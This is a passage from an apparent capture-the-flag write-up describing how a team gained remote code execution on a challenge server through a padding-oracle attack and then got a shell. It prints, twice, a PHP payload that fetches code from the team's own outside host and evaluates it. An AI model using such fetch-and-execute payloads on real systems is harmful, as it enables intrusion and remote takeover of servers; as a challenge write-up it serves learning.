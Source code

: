 ```py
# As payloads take a while to generate, this let us experiment with various reverse shells without needing to remake payload.
payload = b"php -r 'eval(file_get_contents(\"http://wep.dk:81\"));'"
```

# Gaining RCE
After experimenting on the server, we found it didn't have many tools we could use for an easy reverse shell. However we knew it had to have PHP. 

At this point we had arbitrary RCE on the server, however getting the flag took another >1h, as we had issues with the exploit randomly not working, shells dying, and weird inconsistent behaviour. At this point Segphault managed to get first blood, so with that off the table we decided to do it properly.

As each payload took a while to generate, we made a payload of the message 
```
b"php -r 'eval(file_get_contents(\"http://wep.dk:81\"));'"`
```

Which queried our server and executed the response, and we sent this to the server in a loop every 10 seconds, while we developed our payload on the wep.dk website. 

Eventually we got a random php reverse shell working, got a shell, and got the flag :)


# Closing Thoughts

This was a fun challenge, as it used a combination of web and crypto knowledge, allowing myself to work well together with a teammate :)

It also made me really want to make a proper multithreaded/async cbc padding oracle exploit script, as doing it single thread waiting 256 round trips per byte really sucked. Maybe a future project.
